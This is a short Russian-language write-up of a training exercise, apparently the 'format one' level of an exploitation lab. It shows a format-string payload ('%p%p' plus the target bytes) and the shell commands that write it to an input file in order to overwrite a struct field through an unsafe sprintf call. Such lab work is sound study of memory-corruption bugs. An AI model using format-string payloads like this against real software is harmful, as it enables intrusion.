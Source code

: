Задача - изменить значение поля `changeme` на 0x45764f6c в структуре 
```
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
```

Уязвимое место 
```
char buffer[16];
sprintf(locals.dest, buffer);
```

т.к. адрес в формате строки занимает 14 байт, надо сформировать строку "%p%p1234\x6c\x4f\x76\x45"

Заполняем файл inputfileFO
```
python -c "print('%p%p1234\x6c\x4f\x76\x45')" > inputfileFO
```

И убираем байт \0a
```
truncate -s -1 inputfileFO
```

Параметры buffer и dest до вызова функции\
![alt text](../images/format-one/1.png)

Содержимое dest и changeme\
![alt text](../images/format-one/2.png)

Победа\
![alt text](../images/format-one/3.png)